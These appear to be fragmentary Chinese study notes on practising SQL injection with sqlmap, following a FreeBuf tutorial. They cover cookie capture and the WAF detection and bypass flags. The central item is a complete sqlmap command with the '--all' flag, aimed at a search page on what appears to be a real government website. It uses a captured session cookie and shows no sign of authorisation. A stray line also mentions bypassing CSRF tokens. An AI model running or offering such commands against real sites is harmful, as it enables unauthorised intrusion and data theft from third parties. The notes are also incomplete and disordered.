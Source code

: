我们跟随 [SQL注入之SQLmap入门 ](http://www.freebuf.com/articles/web/29942.html) 来做一个练习

## 一、 小技巧
### 1.1、 获取当前网站 Cookie
1. __不推荐__ 的我们可以通过抓包工具抓取并获取。
2. 使用 foxfire 浏览器自身工具。[Ctrl+Shift+C]->[网络选项卡]->[选中一行]->[右侧查看信息]
    - FoxFire 57.0 (64 位)

## 二、
Enumeration:
- 枚举

Miscellaneous:
- 其他
    - ` --identify-waf ` 探测 `WAF/IPS/IDS`
    - ` --skip-waf ` 绕过 `WAF/IPS/IDS` 并进行测试

## 二、 尝试一下
sqlmap.py --url="http://www.shenze.gov.cn/search.jsp?searchkey=1&field2.x=0&field2.y=0" --cookie="JSESSIONID=989A0AB4384CCDD234DB5B5975430800; Path=/clove/; HttpOnly" --all

JSESSIONID=989A0AB4384CCDD234DB5B5975430800; Path=/clove/; HttpOnly

csrf攻击绕过随机token

## 参考
1. [SQL注入之SQLmap入门 ](http://www.freebuf.com/articles/web/29942.html)
2. [SQLMAP参数介绍](https://www.cnblogs.com/shengulong/p/7404642.html)
3. [SQLMap Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
4. [SQLMap用户手册【超详细】](https://www.cnblogs.com/hongfei/p/3872156.html)